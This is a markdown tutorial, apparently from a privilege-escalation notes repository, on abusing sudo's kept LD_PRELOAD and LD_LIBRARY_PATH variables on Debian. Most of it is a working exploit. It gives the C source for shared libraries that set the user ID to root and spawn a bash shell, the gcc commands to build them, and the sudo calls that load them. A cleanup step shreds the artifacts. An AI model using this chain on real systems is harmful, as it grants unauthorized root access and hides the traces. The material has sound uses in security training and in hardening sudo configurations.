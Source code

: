 # Living off the Land

## 01 - Detect

The second vulnerability in particular I would like to demonstrate that's regarding about.

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
                                          
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/sbin/apache2
```

## 02 - Exploit

```
user@debian:~$ cat preload.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0, 0, 0);
        system("/bin/bash -p");
}

user@debian:~$ cat preloadv2.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```

Most probably you'll compile the exploit as a x86-64 (64-bit) architecture. If you're targeting x86 (32-bit) Linux systems then you have to specify the `-m` flag either if it's `-m32` or `-m64`. You'll know right away when using the `file` command to check ELF binary architecture is based off.

```
user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Execute the `LD_PRELOAD` via `sudo` with any of the environment variables that has `(root) NOPASSWD`.

```
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/bin/vim

user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2

user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff503ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f048506b000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f0484e47000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f0484c0d000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f04849f1000)
        libc.so.6 => /lib/libc.so.6 (0x00007f0484685000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f0484480000)
        librt.so.1 => /lib/librt.so.1 (0x00007f0484278000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f0484041000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f0483e3c000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f0483c14000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0485528000)
```

We know that it's using `libcrypt.so.1 => /lib/libcrypt.so.1` if you don't know what it does do a bit of research with a help of internet and see who you can exploit the `sudo` environment.

```
user@debian:~$ cat > library_path.c << EOF
#include <stdlib.h>
#include <unistd.h>
  
static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
EOF

user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

> [!NOTE]
> Sometimes when you tried to get a reverse shell via `netcat` it's best to specify the full path of the binary.

Execute the `LD_LIBRARY_PATH` via `sudo` to get root.

```
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
```

## 03 - Cleanup

```
user@debian:~$ rm /tmp/preload.so /tmp/libcrypt.so.1 preload.c library_path.c

user@debian:~$ shred -uzxfvn 5 /tmp/preload.so /tmp/libcrypt.so.1 preload.c library_path.c
```

---
## References

### Hacktricks

- [Hacktricks: Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)